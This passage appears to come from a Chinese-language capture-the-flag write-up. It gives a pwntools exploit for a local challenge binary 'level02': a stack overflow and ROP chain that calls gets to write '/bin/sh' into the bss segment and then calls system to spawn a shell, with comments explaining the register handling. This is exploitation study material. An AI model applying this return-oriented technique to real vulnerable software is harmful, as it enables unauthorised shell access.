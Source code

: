 还需要找指令将bss地址传入rdi作为参数

![image-20220318191533956](Self-help_Clown.assets/image-20220318191533956.png)

#### Exploit

```python
from pwn import*
o = process("./level02")
elf = ELF('./level02')
gets_plt = elf.plt['gets']
system_plt = elf.plt['system']
bss_addr = 0x00601040
pop_rdi =  0x0000000000400613
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(bss_addr)	# bss地址传入rdi
payload += p64(gets_plt) + p64(pop_rdi) + p64(bss_addr) +p64(system_plt)	# 执行gets函数 
# 当gets执行完后去执行system("/bin/sh"), 讲一下为什么还要传参, 而不是直接跳转执行system
# 一般可能都会认为就是gets的参数就是bss_addr, 那么执行完, rdi里应该还保存这bss_addr
# 对于其他的输入函数可能是这样, 但是gets函数每输入一个字节, rdi中的指针就会加1
# 这就导致执行完gets函数rdi存储的并不指向"/bin/sh"
o.sendline(payload)
o.sendline("/bin/sh")	# 通过gets函数将"/bin/sh"输入到bss段
o.interactive()
```
